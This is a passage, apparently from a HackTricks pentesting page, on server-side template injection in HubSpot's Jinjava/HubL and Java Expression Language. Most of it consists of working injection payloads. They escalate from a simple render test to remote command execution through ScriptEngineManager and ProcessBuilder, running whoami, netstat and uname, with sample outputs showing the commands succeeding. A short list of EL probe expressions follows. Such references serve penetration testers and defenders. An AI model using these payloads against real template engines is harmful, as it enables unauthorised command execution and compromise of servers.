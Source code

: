```

{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.

//{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
//output: xxx

//RCE
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
//output: java.lang.UNIXProcess@1e5f456e

//RCE with org.apache.commons.io.IOUtils.
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//output: netstat execution

//Multiple arguments to the commands
Payload: {{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
//Output: Linux bumpy-puma 4.9.62-hs4.el6.x86_64 #1 SMP Fri Jun 1 03:00:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

**More information**

- [https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#expression-language-el-java)

Expression Language - EL (Java)

- `${"aaaa"}` - "aaaa"
 
- `${99999+1}` - 100000.
 
- `#{7*7}` - 49
 
- `${{7*7}}` - 49
 
- `${{request}}, ${{session}}, {{faceContext}}`
 